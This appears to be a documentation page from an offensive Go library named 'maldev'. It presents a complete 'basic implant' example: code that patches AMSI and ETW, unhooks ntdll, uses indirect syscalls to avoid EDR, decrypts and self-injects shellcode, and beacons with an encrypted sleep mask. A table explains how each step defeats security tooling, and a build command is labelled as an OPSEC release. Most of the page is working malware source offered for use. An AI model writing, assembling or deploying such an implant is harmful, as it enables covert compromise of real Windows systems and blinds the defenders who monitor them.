

# Example: Basic Implant

[← Back to README](../../README.md)

A minimal implant that decrypts shellcode, applies evasion, and executes.



## Code

```go
package main

import (
    "context"
    "time"

    "github.com/oioio-space/maldev/crypto"
    "github.com/oioio-space/maldev/evasion"
    "github.com/oioio-space/maldev/evasion/amsi"
    "github.com/oioio-space/maldev/evasion/etw"
    "github.com/oioio-space/maldev/evasion/sleepmask"
    "github.com/oioio-space/maldev/evasion/unhook"
    "github.com/oioio-space/maldev/inject"
    wsyscall "github.com/oioio-space/maldev/win/syscall"
)

// Encrypted payload (generated at build time)
var encPayload = []byte{/* ... */}
var aesKey = []byte{/* 32-byte key */}

func main() {
    // 1. Create a Caller for stealthy syscalls
    caller := wsyscall.New(wsyscall.MethodIndirect,
        wsyscall.Chain(wsyscall.NewHashGate(), wsyscall.NewHellsGate()))

    // 2. Disable defenses
    evasion.ApplyAll([]evasion.Technique{
        amsi.ScanBufferPatch(),
        etw.All(),
        unhook.Full(),
    }, caller)

    // 3. Decrypt shellcode
    shellcode, err := crypto.DecryptAESGCM(aesKey, encPayload)
    if err != nil {
        return
    }

    // 4. Self-inject via CreateThread
    cfg := &inject.WindowsConfig{
        Config:        inject.Config{Method: inject.MethodCreateThread},
        SyscallMethod: wsyscall.MethodIndirect,
    }
    injector, _ := inject.NewWindowsInjector(cfg)
    injector.Inject(shellcode)

    // 5. Encrypted sleep loop (beacon behavior)
    mask := sleepmask.New(sleepmask.Region{
        Addr: 0, // set to shellcode address
        Size: uintptr(len(shellcode)),
    })
    ctx := context.Background()
    for {
        mask.Sleep(ctx, 30*time.Second)
    }
}
```

## What This Example Demonstrates

| Step | Technique | Why |
|------|-----------|-----|
| Caller | Indirect syscalls + HashGate | All NT calls bypass EDR hooks, no function names in binary |
| AMSI | Prologue patching | Disable script/buffer scanning |
| ETW | Event writer patching | Blind the telemetry system |
| Unhook | Full .text replacement | Remove all ntdll hooks at once |
| AES-GCM | Authenticated encryption | Shellcode encrypted at rest |
| CreateThread | Self-injection | Simplest local execution |
| Sleep mask | XOR + permission cycling | Defeat memory scanners during idle |

## Build

```bash
# OPSEC release
make release BINARY=implant.exe CMD=.
```
